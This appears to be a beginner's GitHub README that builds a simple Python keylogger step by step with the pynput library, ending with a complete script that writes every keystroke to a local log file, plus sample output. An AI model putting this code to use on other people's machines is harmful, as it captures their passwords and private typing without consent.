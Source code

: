 # KEYLOGGER
Simple Keylogger Project for Beginners.

STEP 1 : First Install the pynput library using the [pip install pynput] command.

STEP 2 : Now importing the required packages 
                                              from pynput.keyboard import Key, Listener
                                              import logging
                                              
STEP 3 : Now specify the path where log file will be stored. Here log file inculdes all the keystrokes the user in entering after running the program.
                                              log_dir = r"E:\courses\Keylogger"
                                              logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
                                                   
STEP 4 : Now in the last step create Listner instance and define the on_press() in it and join it with the main program.
                                              with Listener(on_press=on_press) as listener:
                                              listener.join()
                                              
The Final Program should look like this :-> 
                                            import pynput
                                            from pynput.keyboard import Key, Listener
                                            import logging

                                            log_dir = r"E:\courses\Keylogger"
                                            logging.basicConfig(filename = (log_dir + "keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

                                            def on_press(key):
                                               logging.info(str(key))

                                            with Listener(on_press=on_press) as listener:
                                                listener.join()
                                                
STEP 5 : Now, to check the output of the program, run it and type some random keys and open your log file
2023-01-31 23:16:33,756: 'd'
2023-01-31 23:16:33,944: 'k'
2023-01-31 23:16:34,070: 'd'
2023-01-31 23:16:34,164: 'l'
2023-01-31 23:16:34,211: 's'
2023-01-31 23:16:34,507: 'l'
2023-01-31 23:16:34,574: 'e'
2023-01-31 23:16:34,628: 'k'
2023-01-31 23:16:34,875: 'k'
2023-01-31 23:16:35,093: 'c'
2023-01-31 23:16:35,143: 'm'
2023-01-31 23:16:35,279: 'd'
2023-01-31 23:16:35,477: 'f'
2023-01-31 23:16:35,509: 'c'
2023-01-31 23:16:35,619: 'e'
2023-01-31 23:16:42,167: Key.delete
